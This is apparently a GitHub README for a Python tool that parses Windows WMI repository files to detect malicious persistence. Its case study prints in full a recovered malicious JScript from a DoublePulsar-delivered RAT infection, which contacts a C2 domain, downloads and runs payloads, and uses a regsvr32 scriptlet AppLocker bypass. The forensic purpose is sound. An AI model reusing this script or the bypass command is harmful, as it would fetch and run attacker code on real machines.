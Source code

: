 # WMI_Persistence
A repo to hold some scripts pertaining WMI (Windows implementation of WBEM) forensics

## Usage:
> Requires Python 3.0+

python WMIPers.py Name_of_File (Usually OBJECTS.DATA)

## Description:
This script is meant to find WMI persistence by directly parsing the contents of OBJECTS.DATA files thus not requiring access to the user's WMI namespaces. It doesn't require any particular dependencies other than standard Python libraries. The script works fine on both Windows and Linux systems. 
OBJECTS.DATA files can be found on any of two locations: 
- C:\Windows\System32\wbem\Repository\OBJECTS.DATA
- C:\Windows\System32\wbem\Repository\FS\OBJECTS.DATA

The code organizes all the data into a tidy <i>dict object</i> which will grow in complexity as I continue parsing relevant forensic information found in the WMI database file. This will also allow for an easy export to multiple file formats. 

## Example: The case of the Chinese RAT
### Finding malicious persistence script installed after exploiting DoublePulsar SMBv1.0 vulnerability
Many organizations were victims of multiple malware pieces that were weaponized via DoublePulsar. An investigation that I performed recently lead me to find an attack chain that exploited SMBv1.0 vulnerabilities and deployed code that achieved persistence via the use of WMI. Basically it runs a JScript that downloads a list of processes possibly belonging to old versions of the Chinese RAT and attempts to "taskkill" them clearing up the space for the new malicious EXE. It then posts information about running processes to the C2 server and attempts to download the RAT by using a known AppLocker bypass technique that involves registering an ActiveX component via the use of regsvr32.exe.

- A breakdown of how this malware works can be found here: https://www.cyphort.com/eternalblue-exploit-actively-used-deliver-remote-access-trojans/ (seems that the authors forgot however to include the WMI part of this malware)
- For a repo that features examples of how to implement AppLocker SCT bypass please see [here](https://github.com/subTee/SCTPersistence) and [a backdoor example here](https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302)

#### First we run the script
> python WMIPers.py OBJECTS.DATA

#### It will retrieve the general metadata
> --> Binding 48 | FilterToConsumerType: ActiveScriptEventConsumer | EventFilterName: uckmm2_filter | EventConsumerName: uckmm2_consumer

#### And then present the contents of the EventConsumers and EventFilters

> --> EventFilter: select * from timerevent where timerid="uckmm2_itimer"

> --> EventConsumer: 
var toff=3000;var url1 = "http://wmi.mykings.top:8888/kill.html";http = new ActiveXObject("Msxml2.ServerXMLHTTP");fso = new ActiveXObject("Scripting.FilesystemObject");wsh = new ActiveXObject("WScript.Shell");http.open("GET", url1, false);http.send();str = http.responseText;arr = str.split("\r\n");for (i = 0; i < arr.length; i++) { t = arr[i].split(" "); proc = t[0]; path = t[1]; dele = t[2]; wsh.Run("taskkill /f /im " + proc, 0, true);if (dele == 0) { try { fso.DeleteFile(path, true); } catch (e) {} } };var locator=new ActiveXObject("WbemScripting.SWbemLocator");var service=locator.ConnectServer(".","root/cimv2");var colItems=service.ExecQuery("select * from Win32_Process");var e=new Enumerator(colItems);var t1=new Date().valueOf();for(;!e.atEnd();e.moveNext()){var p=e.item();if(p.Caption=="rundll32.exe")p.Terminate()};var t2=0;while(t2-t1<toff){var t2=new Date().valueOf()}var pp=service.get("Win32_Process");var url="http://wmi.mykings.top:8888/test.html",http=new ActiveXObject("Microsoft.XMLHTTP"),ado=new ActiveXObject("ADODB.Stream"),wsh=new ActiveXObject("WScript.Shell");for(http.open("GET",url,!1),http.send(),str=http.responseText,arr=str.split("\r\n"),i=0;arr.length>i;i++)t=arr[i].split(" ",3),http.open("GET",t[0],!1),http.send(),ado.Type=1,ado.Open(),ado.Write(http.responseBody),ado.SaveToFile(t[1],2),ado.Close(),1==t[2]&&wsh.Run(t[1]);pp.create("regsvr32 /s shell32.dll");pp.create("regsvr32 /s WSHom.Ocx");pp.create("regsvr32 /s scrrun.dll");pp.create("regsvr32 /s c:\\Progra~1\\Common~1\\System\\Ado\\Msado15.dll");pp.create("regsvr32 /s jscript.dll");pp.create("regsvr32 /u /s /i:http://js.mykings.top:280/v.sct scrobj.dll");pp.create("rundll32.exe c:\\windows\\debug\\item.dat,ServiceMain aaaa");

## References: 
The script was inspired by the work of Graeber about WMI persistence mechanisms:
https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf

## Future Improvements: 
1) Scan all hosts in your network via SMB using the script
2) Export results to CSV
3) Scan multiple WMI Databases inside a folder
4) Extract more forensically relevant info from OBJECTS.DATA (like SCCM application execution remnants)
5) Decrypt execution values like the especific time setup for timer-based event triggers
6) Parse the contents of MOF files and link them to OBJECTS.DATA findings

